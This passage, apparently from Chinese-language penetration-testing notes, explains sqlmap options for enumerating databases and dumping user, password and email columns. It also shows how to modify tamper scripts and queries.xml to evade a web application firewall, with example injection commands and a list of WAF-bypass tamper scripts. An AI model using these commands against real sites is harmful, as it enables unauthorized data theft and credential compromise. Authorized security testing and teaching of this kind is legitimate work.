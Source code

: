 ### 1.4.3数据库相关操作
- 列数据库信息：--dbs
- web当前使用的数据库--current-db
- web数据库使用账户--current-user
- 列出sqlserver所有用户 --users
- 数据库账户与密码 --passwords
- 指定库名列出所有表  -D database --tables
  - -D：指定数据库名称
- 指定库名表名列出所有字段 -D antian365-T admin --columns
  - -T：指定要列出字段的表
- 指定库名表名字段dump出指定字段
  - -D secbang_com -T admin -C  id,password ,username --dump
  - -D antian365 -T userb -C"email,Username,userpassword" --dump
  - 可加双引号，也可不加双引号。
- 导出多少条数据
  - -D tourdata -T userb -C"email,Username,userpassword" --start 1 --stop 10 --dump （）
  - 参数：
    - --start：指定开始的行
    - --stop：指定结束的行
  - 此条命令的含义为：导出数据库tourdata中的表userb中的字段(email,Username,userpassword)中的第1到第10行的数据内容。

## 1.5 SQLMAP实用技巧
### 15.1 mysql的注释方法进行绕过WAF进行SQL注入
1. 修改 C:\Python27\sqlmap\tamper\halfversionedmorekeywords.py
```python
return match.group().replace(word,"/*!0%s" % word) 为：

return match.group().replace(word,"/*!50000%s*/" % word)
```
2. 修改C:\Python27\sqlmap\xml\queries.xml
```xml
<cast query="CAST(%s ASCHAR)"/>为：

<castquery="convert(%s,CHAR)"/>
```
3. 使用sqlmap进行注入测试
> sqlmap.py -u"http://**.com/detail.php? id=16" –tamper "halfversionedmorekeywords.py"

其它绕过waf脚本方法：
> sqlmap.py-u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tampertamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

4. tamper目录下文件具体含义：
```
space2comment.py用/**/代替空格

apostrophemask.py用utf8代替引号

equaltolike.pylike代替等号

space2dash.py　绕过过滤‘=’ 替换空格字符（”），（’–‘）后跟一个破折号注释，一个随机字符串和一个新行（’n’）

greatest.py　绕过过滤’>’ ,用GREATEST替换大于号。

space2hash.py空格替换为#号,随机字符串以及换行符

apostrophenullencode.py绕过过滤双引号，替换字符和双引号。

halfversionedmorekeywords.py当数据库为mysql时绕过防火墙，每个关键字之前添加mysql版本评论

space2morehash.py空格替换为 #号 以及更多随机字符串 换行符

appendnullbyte.py在有效负荷结束位置加载零字节字符编码
```